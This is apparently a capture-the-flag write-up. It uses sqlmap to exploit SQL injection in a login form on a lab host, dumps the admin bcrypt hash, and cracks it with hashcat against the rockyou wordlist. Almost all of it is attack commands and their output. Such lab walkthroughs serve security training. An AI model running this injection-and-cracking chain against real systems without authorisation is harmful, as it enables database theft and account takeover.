

## SQLi

```bash
sqlmap -u "http://94.237.62.241:32298" --data "username=123&password=123" --ignore-code 401 --threads 10 --risk 3 --level 5 --dbs

available databases [3]:
[*] information_schema
[*] korp_terminal
[*] test

sqlmap -u "http://94.237.62.241:32298" --data "username=123&password=123" --ignore-code 401 --threads 10 --risk 3 --level 5 --dbms=mysql -D korp_terminal --tables

Database: korp_terminal
[1 table]
+-------+
| users |
+-------+

sqlmap -u "http://94.237.62.241:32298" --data "username=123&password=123" --ignore-code 401 --threads 10 --risk 3 --level 5 --dbms=mysql -D korp_terminal -T users --dump

Table: users
[1 entry]
+----+--------------------------------------------------------------+----------+
| id | password                                                     | username |
+----+--------------------------------------------------------------+----------+
| 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
+----+--------------------------------------------------------------+----------+
```

```bash
vim hashes.txt
hashcat -vvv -O -m 3200 -a 0 -o cracked.txt hashes.txt /opt/rockyou.txt

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8...63yiv.
Time.Started.....: Mon Mar 11 15:11:09 2024 (4 secs)
Time.Estimated...: Mon Mar 11 15:11:13 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      873 H/s (6.27ms) @ Accel:2 Loops:8 Thr:24 Vec:1
Speed.#2.........:       64 H/s (8.31ms) @ Accel:16 Loops:8 Thr:1 Vec:1
Speed.#*.........:      937 H/s
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2880/14344384 (0.02%)
Rejected.........: 0/2880 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4088-4096
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:3592-3600
Candidate.Engine.: Device Generator
Candidates.#1....: angelo -> candycane
Candidates.#2....: 123456 -> freedom
Hardware.Mon.#1..: Temp: 45c Fan:  0% Util: 99% Core:2850MHz Mem:10251MHz Bus:16
Hardware.Mon.#2..: N/A

Started: Mon Mar 11 15:10:58 2024
Stopped: Mon Mar 11 15:11:15 2024


$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```


